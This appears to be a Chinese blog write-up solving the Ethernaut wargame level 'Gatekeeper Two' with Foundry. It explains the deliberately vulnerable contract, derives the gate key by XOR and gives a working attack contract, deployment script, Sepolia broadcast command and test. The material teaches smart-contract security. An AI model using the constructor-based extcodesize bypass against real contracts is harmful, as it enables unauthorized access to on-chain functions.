 # Foundry 通关 Ethernaut（13）— **Gatekeeper Two**

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

通过修饰符的限制，成功调用函数更新用户

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. 一个地址类型状态变量 **entrant**，默认为 0x0
2. 函数修饰符：
   - gateOne：函数的当前调用者（msg.sender）与 原始调用者（tx.origin）不相等时执行函数
   - gateTwo：使用内联汇编的语法 函数的调用者地址上的 `bytecode` 为 0 时执行函数
   - gateThree:    `uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))` 异或 `uint64(_gateKey)` == `type(uint64).max)` 时执行函数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## 思路

### gateOne

很经典的 `msg.sender` 与 `tx.origin` 不相等，在 **Telephone** 和 **GatekeeperOne** 两关中都给出过解法，构建一个攻击合约调用即可

### gateTwo

caller()

- caller() ：当前函数的直接调用者
- extcodesize（a） ：地址 a 的代码大小 （eoa账户没有代码，大小为 0）

这里一开始不知道怎么限制 既是合约调用函数，又是Eoa账户，后面搜索知道了还有一种情况，extcodesize（a）为0：

合约在被创建的时候，runtime `bytecode` 还没有被存储到合约地址上， `bytecode` 长度为0。也就是说，将逻辑写在合约的构造函数 `constructor` 中，可以绕过 `extcodesize（a）` 检查。

### gateThree

这里要做一个运算题

**前提：**

- type(uint64).max，8字节，16字符，64 bit，64位 1

- ^: 异或，相同为0，不同为1

- keccak256(abi.encodePacked(msg.sender))：bytes32

```solidity
uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max
```

本来以为又涉及到类型转换时的截断算法，后面想起来，对于 异或 算法 ，a 异或 b = c， b = a 异或 c

结论：uint64(_gateKey) = type(uint64).max ^ uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))

## foundry 复现

### 链上交互

1. 攻击合约

   ```solidity
   contract Attack {
       GatekeeperTwo public gatekeeperTwo;
       bytes8 public _gateKey;
   
       constructor(address _address){
           gatekeeperTwo = GatekeeperTwo(_address);
           _gateKey =  bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
           // 构造函数中调用，此时 msg.sender 为此合约地址，bytecode 为 0
           gatekeeperTwo.enter(_gateKey);
       }
   }
   ```

   部署脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Script, console} from "forge-std/Script.sol";
   import {Attack} from "../src/GatekeeperTwo.sol";
   
   contract AttackScript is Script {
       Attack public attack;
   
       function setUp() public {}
   
       function run() public {
           vm.startBroadcast();
   
           attack = new Attack("关卡实例合约地址");
   
           vm.stopBroadcast();
       }
   }
   ```

2. 终端部署

   ```bash
   forge script script/GatekeeperTwo.s.sol --rpc-url $Sepolia_RPC_URL --broadcast --private-key $PRIVATE_KEY 
   ```

   ![image-20240909203317748](../pict/image-20240909203317748.png)

3. 查看合约数据

   ```bash
   cast call [关卡实例合约地址] "entrant()" --rpc-url $Sepolia_RPC_URL
   ```

   成功更新

   ![image-20240909205617400](../pict/image-20240909205617400.png)

### 测试

1. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.0;
   
   import {Test, console} from "forge-std/Test.sol";
   import {GatekeeperTwo,Attack} from "../src/GatekeeperTwo.sol";
   
   contract GatekeeperTwoTest is Test {
       GatekeeperTwo public gatekeeper;
       Attack public attackContract;
       address  public attacker = address(0x1234);
   
       function setUp() external {
           gatekeeper = new GatekeeperTwo();
           console.log("before",gatekeeper.entrant());
           // 切换到攻击者部署
           vm.prank(attacker);
           attackContract = new Attack(address(gatekeeper));
           // 部署后，构造函数中的调用完成则entrant改变
           console.log("after",gatekeeper.entrant());
   
       }
   }
   ```

2. 终端输入

   ```solidity
   forge test --match-path test/GatekeeperTwo.t.sol -vvvv
   ```

![image-20240909211101343](../pict/image-20240909211101343.png)

我们可以看到，部署攻击合约后，用户改变







